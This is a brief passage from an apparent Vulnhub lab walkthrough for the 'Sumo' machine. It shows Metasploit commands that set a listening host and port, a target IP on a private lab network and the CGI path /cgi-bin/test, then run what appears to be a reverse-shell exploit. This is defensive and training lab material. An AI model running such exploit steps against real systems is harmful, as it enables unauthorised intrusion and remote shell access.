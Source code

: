 
Now lets `use 1` for usage of this exploit →

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%202.png)

Now lets fill these Required YES options →

`set LHOST 192.168.249.128`

`set RHOSTS 192.168.249.136`

`set TARGETURI /cgi-bin/test`

`set LPORT 4444`

`run`

Set see the response →

![Untitled](/Vulnhub-Files/img/Sumo/Untitled%203.png)
